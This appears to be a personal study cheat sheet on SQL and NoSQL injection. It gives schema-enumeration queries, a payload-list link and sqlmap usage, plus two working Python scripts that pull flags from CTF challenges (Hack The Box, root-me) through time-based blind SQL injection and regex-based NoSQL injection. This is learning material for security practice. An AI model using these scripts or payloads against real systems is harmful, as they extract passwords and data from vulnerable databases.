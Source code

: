 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
- `select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
- `select column_name from information_schema.columns where table_name=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string, time
arr = "_}"+ string.digits+ string.ascii_letters  + string.punctuation
s = requests.session()
url = 'http://188.166.173.208:30042/api/list'

def bind(step):
    for char in arr:
        a = time.time()
        s.post(url,data={'order':f"(select case when (select ascii(mid((select password from users  where username='flagholder'),{step},1))) LIKE {ord(char)} then sleep(0.6) else 1 end)"})
        b = time.time()
        if b-a > 4:
            return char
    return None        

def flag():
    flag = 'HTB{'
    step = len(flag) + 1 
    while True:
        c = bind(step)
        if c==None or c=='}':
            return flag + c
            
        flag += c 
        step += 1
        print('[+] flag = ',flag)

print('[+] flag = ',flag())
```

### 2.3. Nosql injection
```
import requests, string
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"
req = requests.session()

def countchar() -> int:
    for i in range(2,50):
        res = req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=%s'%(i*'.')).text
        if 'This is not a valid flag for the'  in res:    
            return i 

def findpassword( n : int) -> str:
    password = ''
    for _ in range(n):
        for c in arr:
            if 'Yeah this is the flag for' in req.get('http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]=^' + password + c).text:
                print('[+] ',password)
                password += c
                break
    return password


n = countchar()
print('length password ',n)
print(findpassword(n))
```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -r file_request --batch -D database --tables`
